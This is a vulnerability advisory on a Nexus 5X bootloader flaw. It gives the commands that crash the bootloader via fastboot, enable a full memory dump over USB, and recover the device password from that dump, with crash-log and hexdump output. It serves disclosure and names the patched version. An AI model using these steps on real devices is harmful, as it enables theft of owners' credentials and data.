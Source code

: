```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2016-09-01' 
alephid: ALEPH-2016000
date: '2016-09-05'
title: 'Google Nexus 5X Bootloader Unauthorized Memory Dumping via USB'
severity: critical
product:
    - Nexus 5X   
vulnerable:
    - Nexus 5X with Android 6.0 MDA39E through 6.0.1 MMB29V (bootloaders bhz10i/k)    
mitigation: 'Upgrade to the latest version of Nexus (MHC19J or later)'

references:
    - src: SecurityIntelligence
      url: https://securityintelligence.com/going-inside-an-arbitrary-kernel-write-vulnerability-in-the-nexus-9/
      
---
```

A vulnerability in Nexus 5X's bootloader allows an attacker to obtain a full memory dump of the device. The vulnerability can be exploited by either physical attackers, or by non-physical ones having ADB (Android Debug Bridge) access to the device. One possible scenario where a non-physical attacker can have ADB access is by first targeting an ADB-authorized developer’s PC and infecting it with malware. Another way is by using malicious chargers targeting ADB-enabled devices. Using such chargers requires the (naïve) victim to authorize the charger once connected
The attacker reboots the phone into the well-known ‘fastboot’ mode, which can be done without any authentication. A physical attacker can do this by pressing the ‘Volume Down’ button during device boot. An attacker with ADB access can do this by issuing the ‘adb reboot bootloader’ command. The fastboot mode exposes a USB interface, which on locked devices must not allow any security sensitive operation to be commanded. However, what discovered was that if the attacker issued (via the fastboot USB interface) the ‘fastboot oem panic’ command, the bootloader would be forced to crash:
```
[38870] fastboot: oem panic
[38870] panic (frame 0xf9b1768):
[38870] r0  0x0f9972c4 r1  0x4e225c22 r2  0x7541206f r3  0x74206874
[38870] r4  0x0f9972e8 r5  0x0f96715c r6  0x0f9972f0 r7  0x0f9670ec
[38870] r8  0x0f92e070 r9  0x00000000 r10 0x00000000 r11 0x00000000
[38870] r12 0x0f92e070 usp 0x0f9650ec ulr 0x00000000 pc  0x0f99c75c
[38870] spsr 0x0f936964
[38870]  fiq r13 0x0f989490 r14 0x00000000
[38870]  irq r13 0x0f989490 r14 0x0f9004f4
[38870]  svc r13 0x0f9b16f0 r14 0x0f92dd0c
[38870]  und r13 0x0f989490 r14 0x00000000
[38870]  sys r13 0x00000000 r14 0x00000000
[38880] panic (caller 0xf936964): generate test-panic
```  

The problem is that in the vulnerable versions of the bootloader, such a crash caused the bootloader to expose a serial-over-USB connection, which allowed fetching a full memory dump of the device, using tools such as QPST Configuration.

To illustrate the severity of the attack, as the victim, I set the device password to “buggybootload3r” and then searched it in the memory dump:

```terminal
> hexdump DDRCS0_0.BIN | grep -10 bootloa
...
2675d060: 6f 00 69 00 64 00 2e 00 – 73 00 65 00 72 00 76 00 o.i.d… s.e.r.v.
2675d070: 69 00 63 00 65 00 2e 00 – 67 00 61 00 74 00 65 00 i.c.e… g.a.t.e.
2675d080: 6b 00 65 00 65 00 70 00 – 65 00 72 00 2e 00 49 00 k.e.e.p. e.r…I.
2675d090: 47 00 61 00 74 00 65 00 – 4b 00 65 00 65 00 70 00 G.a.t.e. K.e.e.p.
2675d0a0: 65 00 72 00 53 00 65 00 – 72 00 76 00 69 00 63 00 e.r.S.e. r.v.i.c.
2675d0b0: 65 00 00 00 00 00 00 00 – 3a 00 00 00 00 0d c4 b6 e……. ……..
2675d0c0: 6d 42 cd 0a b1 00 00 00 – 00 00 00 00 00 00 00 00 mB…… ……..
2675d0d0: 00 00 00 00 00 92 86 33 – e3 79 92 8b b7 d4 77 f5 …….3 .y….w.
2675d0e0: 94 7f d0 2b fb b8 6e cc – 98 3b 9a a7 0d 7c 60 f6 ……n. ……..
2675d0f0: d7 70 68 c2 14 01 00 00 – 0f 00 00 00 62 75 67 67 .ph….. ….bugg
2675d100: 79 62 6f 6f 74 6c 6f 61 – 64 33 72 00 62 75 67 67 ybootloa d3r.bugg
...
```
As one can see, the password can be found on the fetched memory dump. Physical attackers can then successfully boot the platform, which further allows them to impersonate the user, access data stored on the device and more.
